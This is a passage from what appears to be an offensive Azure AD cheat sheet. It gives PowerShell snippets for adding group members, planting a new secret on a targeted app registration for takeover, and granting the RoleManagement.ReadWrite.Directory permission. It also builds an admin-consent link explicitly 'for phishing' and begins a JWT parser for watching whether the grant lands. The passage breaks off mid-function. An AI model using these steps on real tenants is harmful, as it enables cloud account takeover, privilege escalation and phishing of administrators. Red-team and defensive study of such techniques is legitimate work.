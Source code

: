 ```shell
$MemberOid  = ''
$groupOid = ''

Add-AzADGroupMember -TargetGroupObjectId $groupOid -MemberObjectId $MemberOid
```


<a id='app-regs'></a>
## App Registrations

### Create a new secret for a targeted application object (takeover)
```shell
$appid = ''
New-AzADAppCredential -ApplicationId  $appid
```

### Assign an application permission to a targted application object

**Description**: assigns the `RoleManagement.ReadWrite.Directory` permission to the targeted application object (still requires admin consent).

**Note**: identifiers for other application permissions can be found [here](https://learn.microsoft.com/en-us/graph/permissions-reference).

```shell
$targetedAppObjectId = '<OID of targeted App Reg>'

$msgraphAppId = '00000003-0000-0000-c000-000000000000'
$roleManagementReadWriteDirectory = '9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8'

Add-AzADAppPermission -ObjectId $targetedAppObjectId -ApiId $msgraphAppId -PermissionId $roleManagementReadWriteDirectory -Type Role
```

### Create an admin consent link for phishing
```shell
$tid = ''
$appid = ''

Write-output "https://login.microsoftonline.com/$tid/adminconsent?client_id=$appid"
```

### Monitor for new permission grant

**Description**: monitors whether the `RoleManagement.ReadWrite.Directory` permission has been granted by an admin to the targeted application object.

```shell
function Parse-JWTtoken {
    [cmdletbinding()]
    param([Parameter(Mandatory=$true)][string]$token)
 
    # Validate as per https://tools.ietf.org/html/rfc7519
    if (!$token.Contains(".") -or !$token.StartsWith("eyJ")) { Write-Error "Invalid token" -ErrorAction Stop }
 
    # Token Payload
    $tokenPayload = $token.Split(".")[1].Replace('-', '+').Replace('_', '/')
    # Fix padding as needed, keep adding "=" until string length modulus 4 reaches 0
    while ($tokenPayload.Length % 4) { Write-Verbose "Invalid length for a Base-64 char array or string, adding ="; $tokenPayload += "=" }
    Write-Verbose "Base64 encoded (padded) payoad:"
    Write-Verbose $tokenPayload
```
